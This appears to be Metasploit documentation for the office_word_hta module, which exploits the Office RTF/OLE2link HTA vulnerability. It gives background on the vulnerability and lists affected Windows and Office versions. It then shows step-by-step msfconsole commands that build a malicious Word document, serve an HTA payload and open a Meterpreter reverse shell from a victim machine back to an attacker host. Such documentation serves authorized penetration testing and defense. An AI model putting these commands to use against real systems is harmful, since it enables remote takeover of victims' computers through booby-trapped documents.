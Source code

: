 Microsoft Office is an office suite of applications, servers, and services developed by Microsoft. Microsoft Office contains Microsoft Word, Microsoft Excel, Microsoft PowerPoint and so on. They can support OLE data integration and Virtusl Basic for Application scripting langauage. 

FireEye detected malicious Microsoft Office RTF documents that leverage a previously undisclosed vulnerability. This vulnerability allows a malicious actor to execute a Visual Basic script when the user opens a document containing an embedded exploit. FireEye has observed several Office documents exploiting the vulnerability that download and execute malware payloads from different well-known malware families.

The attack involves a threat actor emailing a Microsoft Word document to a targeted user with an embedded OLE2link object. When the user opens the document, winword.exe issues a HTTP request to a remote server to retrieve a malicious .hta file, which appears as a fake RTF file. The Microsoft HTA application loads and executes the malicious script. In both observed documents the malicious script terminated the winword.exe process, downloaded additional payload(s), and loaded a decoy document for the user to see. The original winword.exe process is terminated in order to hide a user prompt generated by the OLE2link.


## Vulnerable Application


- Windows Vista Service Pack 2
- Windows Vista x64 Edition Service Pack 2
- Windows 7 for 32-bit Systems Service Pack 1
- Windows 7 for x64-based Systems Service Pack 1
- Windows Server 2008 for 32-bit Systems Service Pack 2
- Windows Server 2008 R2 for x64-based Systems Service Pack 1
- Windows Server 2008 for x64-based Systems Service Pack 2
- Windows Server 2008 for Itanium-Based Systems Service Pack 2
- Windows Server 2008 R2 for Itanium-Based Systems Service Pack 1
- Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
- Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
- Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
- Windows Server 2012
- Windows Server 2012 (Server Core installation)
- Microsoft Office 2007 Service Pack 3
- Microsoft Office 2013 Service Pack 1 (32-bit editions)
- Microsoft Office 2013 Service Pack 1 (64-bit editions)
- Microsoft Office 2010 Service Pack 2 (32-bit editions)
- Microsoft Office 2010 Service Pack 2 (64-bit editions)
- Microsoft Office 2016 (32-bit edition)
- Microsoft Office 2016 (64-bit edition)


## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/windows/fileformat/office_word_hta```
3. Do: ```set payload [PAYLOAD NAME]```
3. Do: ```exploit```

## Demo

```
$ msfconsole
msf > use exploit/windows/fileformat/office_word_hta 
msf exploit(office_word_hta) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(office_word_hta) > set lhost 192.168.146.1
lhost => 192.168.146.1
msf exploit(office_word_hta) > set srvhost 192.168.146.1
srvhost => 192.168.146.1
msf exploit(office_word_hta) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.146.1:4444 
[+] msf.doc stored at /Users/wchen/.msf4/local/msf.doc
[*] Using URL: http://192.168.146.1:8080/default.hta
[*] Server started.
```

After you have the malicious doc file and servers ready, copy the doc file onto the victim machine,
and open it with Microsoft Office Word. You should receive a session:

```
[*] Sending stage (957487 bytes) to 192.168.146.145
[*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.145:50165) at 2017-04-24 16:00:49 -0500
```

